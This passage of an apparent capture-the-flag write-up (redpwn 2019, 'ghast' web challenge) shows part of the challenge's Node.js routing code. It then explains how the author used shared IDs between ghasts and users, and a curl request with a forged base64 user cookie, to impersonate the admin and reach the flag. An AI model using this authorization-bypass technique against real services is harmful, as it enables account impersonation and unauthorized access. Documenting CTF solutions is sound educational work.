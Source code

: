 ```js
      'content-type': 'text/html',
    })
    res.end(registerPage)
  } else if (req.url === '/ghasts/make' && req.method === 'GET') {
    res.writeHead(200, {
      'content-type': 'text/html',
    })
    res.end(ghastMakePage)
  } else if (req.url.startsWith('/ghasts/') && req.method === 'GET') {
    res.writeHead(200, {
      'content-type': 'text/html',
    })
    res.end(ghastViewPage)
  } else {
    res.writeHead(404)
    res.end('not found')
  }
}).listen(80, () => {
  console.log('listening on port 80')
})
```

One can browse to `api/flag`, but the account must be unlocked (only the admin account is lock by default), and the username must be the same as the admin's one. However, one cannot register with the admin's username (which is supposed to be unknown)
I read [this write-up ](https://kuhi.to/2019/08/15/redpwn-ctf-2019-writeup/#web-1) telling that incrementing the ID until getting the flag was sufficient. However, I didn't think about it and did it differently.

I knew that the admin was the first user that was registered, then its ID must be `ghast:0`. Base64-encode this and browse to `api/things/<base64-encoded id>` revealed the admin's name: `{"name":"sherlockholmes99","locked":true}`

The weakness I exploited was the fact that ghasts' ID and users' ID were the same, and both objects had an attribute `name`. It meant that once we knew the admin username, we only had to create a ghast with  `sherlockholmes99` as its name, and use the newly created ghast ID as a user to get the flag

At the beginning, the user ID was `Z2hhc3Q6OTQ5MjQ`

```
$ curl -H 'Cookie: user=Z2hhc3Q6OTQ5MjQ' --data '{"name": "sherlockholmes99"}' http://chall.2019.redpwn.net:8008/api/ghasts -v
*   Trying 34.223.35.192...
* TCP_NODELAY set
* Connected to chall.2019.redpwn.net (34.223.35.192) port 8008 (#0)
> POST /api/ghasts HTTP/1.1
> Host: chall.2019.redpwn.net:8008
> User-Agent: curl/7.52.1
> Accept: */*
> Cookie: user=Z2hhc3Q6OTQ5MjQ
> Content-Length: 28
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 28 out of 28 bytes
< HTTP/1.1 200 OK
< Date: Thu, 15 Aug 2019 17:09:07 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
<
* Curl_http_done: called premature == 0
* Connection #0 to host chall.2019.redpwn.net left intact
```
